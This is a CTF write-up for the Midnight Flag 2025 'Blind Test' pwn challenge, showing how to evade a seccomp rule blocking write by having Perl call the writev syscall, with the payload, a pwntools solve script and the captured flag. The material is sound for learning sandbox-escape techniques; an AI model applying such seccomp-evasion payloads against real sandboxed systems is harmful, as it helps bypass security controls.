 ```yaml
---
title: Midnight Flag CTF 2025 - Blind Test (pwn)
date: 2025-04-16 11:10:48 +0200
categories: [MidnightFlagCTF2025, Pwn]
tags: [pwn]
category: pwn
author: lenoctambule
layout: post
description:  Challenge that makes us bypass a seccomp profile that prohibits write syscalls 
---
```


## Information gathering

This challenge is a binary exploitation challenge. We have full access of the source code, as well as a local testing environment.

The code is straight forward, it first sets up a seccomp that prohibits the use of syscalls `write` and `socket` and allows everything else.

```c
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(socket), 0);
```

We can also extract the seccomp using [`seccomp-tools`](https://github.com/david942j/seccomp-tools/) which gives us :

```text
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x03 0xffffffff  if (A != 0xffffffff) goto 0008
 0005: 0x15 0x02 0x00 0x00000001  if (A == write) goto 0008
 0006: 0x15 0x01 0x00 0x00000029  if (A == socket) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL
```

Then it takes a 3000 characters long input and calls `system` function with it.

```c
    while (1) {
        if (fgets(command, sizeof(command), stdin) == NULL) {
            break;
        }
        system(command);
    }
```

## Exploitation

As expected, whenever we send a command, we get nothing back. Looking at the different avalaible syscalls, there are a few that could performs the same task as `write` such as :
- `pwrite64` - write to a file descriptor at a given offset
- `writev` - write data into multiple buffers

But `writev` seems a lot easier because `pwrite64` can't write to stdout (which is what we want).

So our plan is now clear :
- open the flag and get the file descriptor
- read the flag
- use `writev` to execute it

However, the execution is not. We need something that allows to do all of the above and that is already installed on the debian container. And after spending a bit of time looking around, I found that perl is installed and perl does allows us to make syscalls using well ... `syscall`. As I'm not good in perl and time is of essence, I asked ChatGPT to do it for me and here's the payload that I got :

```pl
open my $fh, "<", "./flag.txt";
my $file_content = do {local $/; <$fh>};
my @buffers = ($file_content, "\n");
my $iovec = pack("L!L!L!L!L!L!",
    map { 
        my $str = $_;
        my $ptr = unpack("L!", pack("P", $str));
        my $len = length($str);
        ($ptr, $len)
    } @buffers
);
my $fd = fileno(STDOUT);
my $ret = syscall(20, $fd, $iovec, scalar(@buffers));
```

And the python script to send it automatically while getting rid of line returns :

```py
from pwn import *

r = remote("xxxx.midnightflag.fr", xxxxx)
context.log_level = 'INFO'
with open('payload.pl', 'r') as f :
    payload = f.read().strip().replace('\n', '')
    cmd = f"perl -e '{payload}'"
    r.sendline(cmd)
print(r.recv(timeout=1))
```

And voilà ! we run it and get the flag,
```text
$ py solve.py 
[+] Opening connection to localhost on port 4444: Done
/home/ravaka/ctf/midnight-2025/pwn/blindtest/solve.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendline(cmd)
b'MCTF{kIll3d_3xFi}\n\n'
[*] Closed connection to localhost port 4444
```

<i>Solved by <span class="goodwill">lenoctambule</span></i>